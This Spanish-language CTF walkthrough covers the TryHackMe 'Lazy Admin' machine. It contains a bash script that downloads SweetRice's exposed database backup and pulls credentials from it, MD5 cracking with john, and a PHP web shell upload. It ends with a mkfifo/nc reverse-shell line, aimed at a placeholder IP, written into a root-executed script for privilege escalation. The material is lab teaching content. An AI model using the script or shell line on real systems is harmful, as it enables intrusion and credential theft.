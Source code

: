 ```yaml
---
title : Máquina|Lazy Admin|THM|EC|SUID
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/lazyAdmin/lazyAdmin.png" style="width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/lazyadmin" style="color: lightblue;">Lazy Admin</a></p>
    </div>
</div>

<h2><font color="white"><center># LazyAdmin</center></font></h2>
* <p>Empezamos con el reconocimiento de la maquina</p>
> ping -c 1 IP
<img src="/imgs/lazyAdmin/lazyAdmin0.jpg"/>
<br>
<br>
`Vemos que es una maquina Linux por el ttl que es de 63, por proximidad hacia 64 podemos decir que la maquina es Linux.`
* <p>Empezamos con el reconocimiento de puertos.</p>
> nmap --min-rate 5000 -sV -sS -Pn --open 10.10.56.176 -o ports
<img src="/imgs/lazyAdmin/lazyAdmin1.jpg"/>
<br>
<br>
`Podemos observar que tiene el puerto ssh y http abierto.`
* <p>Ahora enumeraremos los directorios activos de la pagina web</p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.56.176/FUZZ
<img src="/imgs/lazyAdmin/lazyAdmin2.jpg"/>
<br>
<br>
`Vemos que hay un directorio llamado content.`

* <p>Miremos que trae ese directorio.</p>

<img src="/imgs/lazyAdmin/lazyAdmin3.jpg"/>
<br>
`Vemos que en su sistema usa SweetRice el cual miraremos si tiene vulnerabilidades.`

<br>
* <p>Miremos si tiene vulnerabilidades el sistema que tiene en uso.</p>
> searchsploit sweetrice
<img src="/imgs/lazyAdmin/lazyAdmin4.jpg"/>
* <p>Mirando bien tenemos un exploit llamado Backup Disclosure que recopila información, de una base de datos mySql.</p>

<img src="/imgs/lazyAdmin/lazyAdmin5.jpg"/>
<br><br>
`Lo que podemos observe es que hay una base de datos filtrada en una url en este caso http://localhost/inc/mysql_backup`
* Veamos si existe el archivo filtrado.

<img src="/imgs/lazyAdmin/lazyAdmin6.jpg"/>
<br><br>
`Ahora si vemos el archivo descargado podemos ver que hay un usuario llamado "manager" y la contraseña encriptada en MD5`
* <p>Por cierto pensé en la gente y desarrolle este <font color="red">exploit</font> el cual te automatiza todo.</p>


```bash
#!/bin/bash

ctrl_c(){
	echo -e "[\e[31;1m!\e[0m] Saliendo\n"
	exit 2
}
trap ctrl_c INT

function init(){
	echo -e "\e[31;1m[!] Cheking if exist url : $1\e[0m"

	if test """$( curl -s -X GET "http://$1/content/inc/mysql_backup/" -i | head -n 1 | cut -f2 -d' ' )""" -eq 200;then
		echo -e "\e[37;1m [+] Succes url database...\e[0m"
		echo -e "\e[37;1m [!] Cheking database exist into url\e[0m"
		curl -s -X GET "http://$1/content/inc/mysql_backup/" | tr '>' '\n' | grep -E '".*?"' | grep "href" | grep -E "*.sql" | cut -f2 -d'"' > .nameFile.tmp
		echo -e "\e[37;1m [+] Name succes... \e[0m"
		echo -e "\e[37;1m [!] Extracting file db\e[0m"
		curl -s -X GET "http://$1/content/inc/mysql_backup/$(cat .nameFile.tmp)" > database.sql
		echo -e "\e[37;1m [+] Ok data base extract in file -->> database.sql\e[0m"
		echo -e "\e[37;1m [!] Extracting users and passwords of file\e[0m"
		echo -e "\n\e[37;1m[ Credentials ]"
		echo -e "\e[37;1m------------------------"
		cat database.sql  | tr ':' '\n' | grep 'passwd' -A2 -B3 | tr -d '\\' | grep -E '".*?"' | grep -vE "pass*" > .credentials.tmp
		echo -e "Username : $(cat .credentials.tmp | head -n 1)"
		echo -e """password : $(cat .credentials.tmp | head -n 2 | awk "NR==2")"""
		echo -e "-----------------------------"
		echo -e "\n[ all information ]"
		echo -e "--------------------------"
		cat .credentials.tmp
		echo -e "------------------------\n"
		echo -e "if there a error check file database.sql for verify."
		echo '' 
		rm -rf .nameFile.tmp
		exit 0
		
		
	else
		if test """$(curl -s -X GET "http://$1/inc/mysql_backup/" -e | head -n 1 | cut -f2 -d' ')""" -eq 200; then
			echo -e "\e[37;1m Succes url database \e[0m"
			echo -e "\e[37;1m Cheking database into url\e[0m"
			curl -s -X GET "http://$1/content/inc/mysql_backup/" | tr '>' '\n' | grep -E '".*?"' | grep "href" | grep -E "*.sql" | cut -f2 -d'"' > .nameFile.tmp
			echo -e "\e[37;1m [+] Name succes... \e[0m"
  	 	        echo -e "\e[37;1m [!] Extracting file db\e[0m"
			curl -s -X GET "http://$1/inc/mysql_backup/$(cat .nameFile.tmp)" > database2.sql
			echo -e "\e[37;1m [!] Extracting users and passwords of file\e[0m"
			echo -e "[ Credentials ]"
			echo -e "\e[37;1m------------------------"
	               	cat database.sql  | tr ':' '\n' | grep 'passwd' -A2 -B3 | tr -d '\\' | grep -E '".*?"' | grep -vE "pass*"
        	        echo -e "------------------------"
	                echo -e "if there a error check file database.sql for verify."
			rm -rf .nameFile.tmp
			exit 0
		else
			echo -e "\e[37;1m Error exploit\e[0m"
		fi
	fi
	
	
}

if test -z $1;then
	echo -e "\e[31;1m Not url declare\e[0m"
	exit 5
fi
init $1


```
* <p>Si lo ejecutamos...</p>

<img src="/imgs/lazyAdmin/lazyAdmin7.jpg"/>
<br><br>
`Vemos el usuario y la contraseña.`
* <p>Ahora desencriptar el hash anteriormente.</p>
> john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

<img src="/imgs/lazyAdmin/lazyAdmin8.jpg"/>
<br><br>
`contraseña débil.`
* <p>Ahora ya podemos ingresar al login de la pagina web.</p>

<img src="/imgs/lazyAdmin/lazyAdmin9.jpg"/>
* <p>Ahora nos vamos al apartado de anuncios.</p>

<img src="/imgs/lazyAdmin/lazyAdmin10.jpg"/>
* <p>Ahora solo colocamos un codigo php que me de una web Shell. </p>

<img src="/imgs/lazyAdmin/lazyAdmin11.jpg"/>
* <p>Ahora vamos a la url, donde se cargo el archivo php en este caso es en  <font color="yellow">http://localhost/content/inc/ads/( nombre de archivo).php</font></p>

<img src="/imgs/lazyAdmin/lazyAdmin12.jpg"/>
* <p>Nos ponemos en escucha en nuestra terminal y recargamos la pagina web anterior, de esta forma ganaremos una web Shell</p>

<img src="/imgs/lazyAdmin/lazyAdmin13.jpg"/>
* <p>Enumeramos el sistema para ver como podemos escalar privilegios.</p>

<img src="/imgs/lazyAdmin/lazyAdmin14.jpg"/>
<br><br>
`En la imagen podemos ver que tenemos permisos para ejecutar perl, un archivo llamado /home/itguy/backuo.pl que a su vez ejecuta otro archivo llamado /etc/copy.sh el cual vemos que tenemos permisos de escritura`
* Como el archivo /etc/copy.sh, en su contexto vemos que el archivo tiene una estructura para lanzar una seudo consola por una ip y un puerto, lo que haré sera remplazar la ip y el puerto y ejecutar el archivo.
> echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TuIp 5555 >/tmp/f"  > /etc/copy.sh
<img src="/imgs/lazyAdmin/lazyAdmin15.jpg"/>



